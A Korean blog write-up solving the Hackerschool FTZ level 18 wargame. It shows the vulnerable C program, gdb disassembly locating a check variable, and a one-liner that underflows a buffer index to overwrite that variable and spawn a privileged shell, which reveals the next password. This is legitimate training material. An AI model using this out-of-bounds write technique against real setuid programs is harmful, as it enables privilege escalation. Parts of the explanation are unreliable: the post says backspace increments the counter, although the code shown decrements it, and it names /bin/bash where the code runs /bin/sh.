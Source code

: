 ```yaml
---
layout: post
title: "Hackerschool FTZ-level18"
categories: [Hackerschool-FTZ]
tags: [pwnable]
redirect_from:
 - /2019/06/04/
---
```

```bash
login as: level18 
level18@~~~~~'s password: 
[level18@ftz level18]$ ls 
attackme  hint  public_html  tmp 
[level18@ftz level18]$ cat hint 

#include <stdio.h>
#include <sys/time.h> 
#include <sys/types.h> 
#include  <unistd.h>
void shellout(void); 
int main() 
{ 
  char string[100]; 
  int check; 
  int x = 0; 
  int count = 0; 
  fd_set fds; 
  printf("Enter your command: "); 
  fflush(stdout); 
  while(1) 
    { 
      if(count >= 100) 
        printf("what are you trying to do?\n"); 
      if(check == 0xdeadbeef) 
        shellout(); 
      else 
        { 
          FD_ZERO(&fds); 
          FD_SET(STDIN_FILENO,&fds); 

          if(select(FD_SETSIZE, &fds, NULL, NULL, NULL) >= 1) 
            { 
              if(FD_ISSET(fileno(stdin),&fds)) 
                { 
                  read(fileno(stdin),&x,1); 
                  switch(x) 
                    { 
                      case '\r': 
                      case '\n': 
                        printf("\a"); 
                        break; 
                      case 0x08: 
                        count--; 
                        printf("\b \b"); 
                        break; 
                      default: 
                        string[count] = x; 
                        count++; 
                        break; 
                    } 
                } 
            } 
        } 
    } 
} 

void shellout(void) 
{ 
  setreuid(3099,3099); 
  execl("/bin/sh","sh",NULL); 
} 

[level18@ftz level18]$
```


코드가 매우 길다. 솔직히 무슨 프로그램인지 알아내기 위해서는 구글링을 해야 할 것 같다.

그러나 이런 코드를 볼 때에는 어떻게 하면 해킹을 성공할 수 있을지 핵심적인 내용만 파악할 수 있으면 된다.

우선 check가 deadbeef가 되면 /bin/bash를 실행에 해킹에 성공할 수 있다.

한글자씩 입력을 받으며 그 값을 string[count]에 넣어주는 코드이다.

본인은 문제를 풀기 위해 얕게 공부했으므로 자세히 설명해 줄 수 없다.

자세히 알고싶으면 이 사이트를 보는 것이 좋을 것이다.

https://grayfieldbox.tistory.com/entry/FTZFree-Training-Zone-Level-18

이 문제는 OOB의 기법을 사용한다.

https://cw0rldwriteup.tistory.com/20

내가 이전에 정리해 뒀던 OOB의 원리다.

버퍼오버플로우가 익숙하다면 어렵지 않을 것이다.

만약 이해가 되지 않는다면 구글링을 추천한다.

우선 gdb로 분석해보자.


```bash
[level18@ftz level18]$ gdb -q attackme 
(no debugging symbols found)...(gdb) set disassembly-flavor intel 
(gdb) disas main 
Dump of assembler code for function main: 
0x08048550 <main+0>:    push   ebp 
0x08048551 <main+1>:    mov    ebp,esp 
0x08048553 <main+3>:    sub    esp,0x100 
0x08048559 <main+9>:    push   edi 
0x0804855a <main+10>:   push   esi 
0x0804855b <main+11>:   push   ebx 
0x0804855c <main+12>:   mov    DWORD PTR [ebp-108],0x0 
0x08048563 <main+19>:   mov    DWORD PTR [ebp-112],0x0 
0x0804856a <main+26>:   push   0x8048800 
0x0804856f <main+31>:   call   0x8048470  <printf>
0x08048574 <main+36>:   add    esp,0x4 
0x08048577 <main+39>:   mov    eax,ds:0x804993c 
0x0804857c <main+44>:   mov    DWORD PTR [ebp-252],eax 
0x08048582 <main+50>:   mov    ecx,DWORD PTR [ebp-252] 
0x08048588 <main+56>:   push   ecx 
0x08048589 <main+57>:   call   0x8048430  <fflush>
0x0804858e <main+62>:   add    esp,0x4 
0x08048591 <main+65>:   jmp    0x8048598 <main+72> 
0x08048593 <main+67>:   jmp    0x8048775 <main+549> 
0x08048598 <main+72>:   cmp    DWORD PTR [ebp-112],0x63 
0x0804859c <main+76>:   jle    0x80485ab <main+91> 
0x0804859e <main+78>:   push   0x8048815 
0x080485a3 <main+83>:   call   0x8048470  
0x080485a8 <main+88>:   add    esp,0x4 
0x080485ab <main+91>:   cmp    DWORD PTR [ebp-104],0xdeadbeef

........
```




main+91에서 변수와 deadbeef를 비교하는 것이 보인다.

저것이 check의 주소값일 것이다.

check의 주소값 : ebp-104

C 코드에서 check와 string은 바로 옆에 위치해 있다.

C 프로그램상 0x08을 넣으면 count가 1씩 늘어난다.

그러므로 무작위 대입을 해 보기로 했다.


```bash
[level18@ftz level18]$ (python-c'print"\x08"*4+"\xef\xbe\xad\xde"';cat)|./attackme 
Enter your command: my-pass 

Level19 Password is "swimming in pink". 
```










































































